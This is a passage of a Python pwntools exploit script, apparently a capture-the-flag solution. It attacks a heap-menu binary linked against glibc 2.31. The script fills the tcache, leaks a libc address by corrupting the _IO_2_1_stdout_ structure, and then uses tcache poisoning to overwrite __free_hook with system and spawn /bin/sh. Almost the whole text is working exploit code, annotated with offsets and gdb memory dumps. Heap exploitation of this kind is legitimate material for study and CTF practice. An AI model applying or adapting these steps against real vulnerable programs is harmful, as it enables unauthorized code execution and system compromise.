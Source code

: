 ```python
    free(i)   # full tcache # tcache(0xb0) cnt=7: c6, c5, ...,c0
edit(6, "B" * 16)  # double free prepare, cover fw/bk of c6, avoid "free(): double free detected in tcache 2"
free(6)  # c6 to unsorted bin
# heap bins: tcache(0xb0) cnt=7: c6, libc addr, trash addr... unsorted: c6


# == Steo-2: leak 2nd byte of c6 fw/bk
B0, B1 = talk(6)
randnum = B0 ^ 0xe0  # 0xe0: lowest Byte of c6'fw/bk
# p &_IO_2_1_stdout_
B1 = randnum ^ B1
stdout_ls2B = b"\xa0" + int(B1 + 0xa + 1).to_bytes(1, "big")  # &_IO_2_1_stdout_ - c6_fw = 0xac0
print("==> B0,B1:", bytes([B0, B1]).hex(), "rand:", hex(randnum), "stdout_ls2B", stdout_ls2B.hex())


# === Step-3: cover c6_fw with &_IO_2_1_stdout_ (only lowest 2B)
cmd(2)  # edit
sla("\n", str(6))  # idx=6
sa("\n", stdout_ls2B)  # cover lowest 2B # verify: &_IO_2_1_stdout_ == c6_fw != c6_bk

# heap bins: tcache(0xb0) cnt=7: c6, &_IO_2_1_stdout_, Corrupted... unsorted: c6
# === Step-4: leak libc_base by changing _flag etc of _IO_2_1_stdout_
add(6, 0xa0, "deadbeef")  # tcache(0xb0) cnt=6: &_IO_2_1_stdout_, Corrupted... # c6_fw=deadbeef, c6_bk=0xa(\n)
cmd(1)  # malloc
sla("\n", str(5))  # idx=5
sla("\n", str(0xa0))  # size=0xa0
sa("\n", p64(0xfbad3887) + p64(0) + p64(0) + p64(0) + b'\x00')  # c5/_IO_2_1_stdout_ : x /10xg 0x00007f055b0446a0
# 0x7f055b0446a0 <_IO_2_1_stdout_>:       0x00000000fbad3887      0x00007f055b044723
# 0x7f055b0446b0 <_IO_2_1_stdout_+16>:    0x00007f055b044723      0x00007f055b044723
# 0x7f055b0446c0 <_IO_2_1_stdout_+32>:    0x00007f055b044723      0x00007f055b044723
leak_addr = l64()
libc_base = leak_addr - 0x1eb980  # cal offset between leak_addr and libc_base (vmmap in gdb)
print("==> leak_addr:", hex(leak_addr), "libc:", hex(libc_base))

# heap bins: tcache(0xb0) cnt=5: Corrupted chunk at 0xfbad2887 unsorted: c6
# === Step-5: recover c6_fw/bk. if not, SIGSEGV occur in Step-6
c6fw = 0x1ebbe0 + libc_base
cmd(2)  # edit
sla("\n", str(6))  # idx=6
sa("\n", p64(c6fw) + p64(c6fw))  # recover c6_fw/bk

# === Step-6: tcache poisoning: UAF
free_hook = libc.symbols["__free_hook"] + libc_base
system_addr = libc.symbols["system"] + libc_base  # puts for local test # system
add(0, 0x20, "c0")  # './ld-2.31.so' stopped with exit code -11 (SIGSEGV) here if without Step-5
add(1, 0x20, "c1")
free(0)
free(1)  # tcache(0x30) cnt=2: c1, c0
edit(1, p64(free_hook))      # tcache(0x30) cnt=2: c1, &__free_hook
add(1, 0x20, "/bin/sh\x00")  # tcache(0x30) cnt=1: &__free_hook # c0:/bin/sh
add(0, 0x20, p64(system_addr))  # get &__free_hook and cover __free_hook to __free_hook
free(1)  # trriger system("/bin/sh\x00")

dd()  # debug
p.interactive()

```
